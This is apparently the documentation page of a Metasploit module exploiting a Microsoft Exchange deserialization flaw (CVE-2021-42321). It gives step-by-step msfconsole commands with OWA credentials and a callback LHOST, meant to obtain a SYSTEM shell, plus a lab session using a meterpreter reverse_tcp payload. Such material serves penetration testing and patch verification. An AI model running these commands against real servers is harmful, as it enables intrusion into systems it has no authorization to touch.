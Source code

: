 1. Follow [Setup](#setup) to set up a vulnerable target.
2. `msfconsole`
3. `set RHOST <target IP address>`
4. `set LHOST <IP for target to connect back to>`
5. `set HttpUsername <username of OWA user to log in as>`
6. `set HttpPassword <password for this OWA user>`
7. Optional: `set DOMAIN <domain of OWA user>`
8. Optional: `set VHOST <vhost of target>`
9. `exploit`
10. You should get a shell on the target as `NT AUTHORITY\SYSTEM` if it is vulnerable.

## Targets

### 0

Windows Command

### 1

Windows Dropper

### 2

PowerShell Stager

## Options

### HttpUsername

Set this to the OWA username. This can also be set to a valid domain username that has permissions to log into Exchange.

### HttpPassword

Set this to the OWA password. This can also be set to the password for a domain user that has permissions to log into Exchange.

## Scenarios

### Exchange Server 2016 CU22 (Build 15.1.2375.7) on Windows Server 2016 x64 (CVE-2021-42321)

```
msf > use exploit/windows/http/exchange_chainedserializationbinder_rce
[*] No payload configured, defaulting to cmd/windows/powershell/meterpreter/reverse_tcp
msf exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpUsername aliddle
HttpUsername => aliddle
msf exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpPassword Password1
HttpPassword => Password1
msf exploit(windows/http/exchange_chainedserializationbinder_rce) > set DOMAIN EXCHG
DOMAIN => EXCHG
msf exploit(windows/http/exchange_chainedserializationbinder_rce) > set RHOSTS 192.168.159.42
RHOSTS => 192.168.159.42
msf exploit(windows/http/exchange_chainedserializationbinder_rce) > show options

Module options (exploit/windows/http/exchange_chainedserializationbinder_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  Password1        yes       The password to use to authenticate to the Exchange server
   HttpUsername  aliddle          yes       The username to log into the Exchange server as
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b